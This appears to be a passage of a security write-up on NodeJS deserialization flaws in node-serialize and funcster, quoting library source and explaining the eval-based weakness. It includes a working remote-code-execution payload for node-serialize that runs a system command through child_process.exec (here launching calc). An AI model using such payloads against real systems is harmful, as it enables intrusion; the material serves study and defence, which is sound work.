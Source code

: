 #### NodeJS: Text-based archive format

**node-serialize**

The first NodeJS module under analysis is `node-serialize`. In 2017, a researcher named **Ajin Abraham** found that this module allowed deserialization of function objects in a non-safe way, leading to RCE. 

If tested, it is possible to see that `node-serialize` serializes objects using regular JSON format. The question that may arise would be, why not JSON.stringify(), then? The reason being that JSON cannot really serialize functions.

For this reason, if an object containing a functional literal is serialized with `JSON.stringify`, the literal would be lost:

```js
node -e "console.log(JSON.stringify({'a':function(){console.log('HELLO!');}}));"

{}
```

While if serialized with `node-serialize`, the result would be the following:

```js
$ node -e "console.log(require('node-serialize').serialize({'a':function(){console.log('HELLO!');}}));"

{"a":"_$$ND_FUNC$$_function(){console.log('HELLO!');}"}
```

The problem arises, of course, during the deserialization process, because to reverse the function back, `node-serialize` would pass any object prefixed with `_$$ND_FUNC$$_` to `eval`, as can be seen from the following snippet:

```js
// https://github.com/luin/serialize/blob/master/lib/serialize.js
75. if(obj[key].indexOf(FUNCFLAG) === 0) {
76.     obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');
77. }
```

Which meanse that if a serialized object, like the following, is deserialized by node-deserialize:

```js
{"rce":"_$$ND_FUNC$$_function() { CMD = \"cmd /c calc\"; require('child_process').exec(CMD, function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

The application would execute an arbitrary command on the target machine (in this case, spawn a calculator on a Windows box).

**funcster**

The `funcster` module is also affected by a deserialization vulnerability. However, this time, the vulnerability is triggered via `module.exports` and executed within a sandboxed environment:

```js
// https://github.com/jeffomatic/funcster/blob/master/js/lib/funcster.js
83. _generateModuleScript: function(serializedFunctions) {
84.      var body, entries, name;
85.      entries = [];
86.      for (name in serializedFunctions) {
87.        body = serializedFunctions[name];
88.        entries.push("" + (JSON.stringify(name)) + ": " + body);
89.      }
90.      entries = entries.join(',');
91.      return "module.exports=(function(module,exports){return{" + entries + "};})();";
92.    },
...
141. vm.createScript(script, opts.filename).runInNewContext(sandbox);
142. return sandbox.module.exports;
```